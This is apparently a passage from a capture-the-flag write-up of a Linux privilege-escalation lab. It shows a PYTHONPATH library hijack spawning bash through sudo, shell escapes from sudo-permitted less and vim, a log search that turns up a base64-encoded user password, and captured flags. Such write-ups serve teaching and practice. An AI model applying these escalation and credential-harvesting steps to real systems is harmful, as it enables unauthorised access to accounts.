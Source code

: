 ```python
#!/usr/bin/python3
import os
os.system("/bin/bash")
```

```bash
sudo -u jordan PYTHONPATH=/tmp /opt/scripts/Gun-Shop.py
```

The flag is reversed. Use `rev` to reverse it

`jordan{fcbc4b3c31c9b58289b3946978f9e3c3}`

### Ken

`sudo -l` reveals:

```bash
Matching Defaults entries for jordan on linuxagency:
    env_reset, env_file=/etc/sudoenv, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User jordan may run the following commands on linuxagency:
    (ken) NOPASSWD: /usr/bin/less
```

Using [GTFOBINS]() for appropriate commands

```bash
sudo -u ken less /etc/profile
!/bin/sh
```

`ken{4115bf456d1aaf012ed4550c418ba99f}`

### Sean

`sudo -l` reveals:

```bash
Matching Defaults entries for ken on linuxagency:
    env_reset, env_file=/etc/sudoenv, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User ken may run the following commands on linuxagency:
    (sean) NOPASSWD: /usr/bin/vim
```

Using vim to get the shell of user sean

```bash
sudo -u sean vim /etc/profile
:!/bin/bash
```

No flag at homedir of sean but he is a member of *adm* group. Checking log files.

```bash
grep -r "sean{" /var/log
sean{4c5685f4db7966a43cf8e95859801281} VGhlIHBhc3N3b3JkIG9mIHBlbmVsb3BlIGlzIHAzbmVsb3BlCg==
```
